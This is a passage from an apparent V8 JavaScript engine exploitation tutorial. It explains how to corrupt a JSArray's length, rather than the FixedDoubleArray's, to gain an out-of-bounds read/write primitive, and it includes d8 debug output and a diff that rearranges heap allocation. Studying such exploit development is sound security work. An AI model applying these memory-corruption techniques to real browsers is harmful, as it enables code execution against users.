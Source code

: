 ## Step 1 : Corrupting a JSArray and leaking an ArrayBuffer's backing store 

The problem with step 0 is that we merely overwrite the `FixedDoubleArray`'s length ... which is pretty useless because it is not the field actually controlling the JSArray’s length the way we expect it, it just gives information about the memory allocated for the fixed array. Actually, the only `length` we want to corrupt is the one from the `JSArray`.

Indeed, the length of the `JSArray` is not necessarily the same as the length of the underlying `FixedArray` (or `FixedDoubleArray`).  Let's quickly check that.

```text
d8> let a = new Array(0);
undefined
d8> a.push(1);
1
d8> %DebugPrint(a)
DebugPrint: 0xd893a90aed1: [JSArray]
 - map: 0x18bbbe002ca1 <Map(HOLEY_SMI_ELEMENTS)> [FastProperties]
 - prototype: 0x1cf26798fdb1 <JSArray[0]>
 - elements: 0x0d893a90d1c9 <FixedArray[17]> [HOLEY_SMI_ELEMENTS]
 - length: 1
 - properties: 0x367210500c19 <FixedArray[0]> {
    #length: 0x0091daa801a1 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x0d893a90d1c9 <FixedArray[17]> {
           0: 1
        1-16: 0x3672105005a9 <the_hole>
 }
```

In this case, even though the length of the `JSArray` is `1`, the underlying `FixedArray` as a length of `17`, which is just fine! But that is something that you want to keep in mind.

If you want to get an OOB R/W primitive that's the `JSArray`'s length that you want to overwrite. Also if you were to have an out-of-bounds access on such an array, you may want to check that the size of the underlying fixed array is not too big. So, let's tweak a bit our code to target the `JSArray`'s length!

If you look at the memory dump, you may think that having the allocated `JSArray` *before* the `FixedDoubleArray` mightbe convenient, right?

Right now the layout is:  

```text
FIXED_DOUBLE_ARRAY_TYPE
FIXED_DOUBLE_ARRAY_TYPE
JS_ARRAY_TYPE
```

Let's simply change the way we are allocating the second array.

```diff
23c23
<   arr2 = new Array(42.1,42.0,42.0);
---
>   arr2 = Array.of(42.1,42.0,42.0);
```
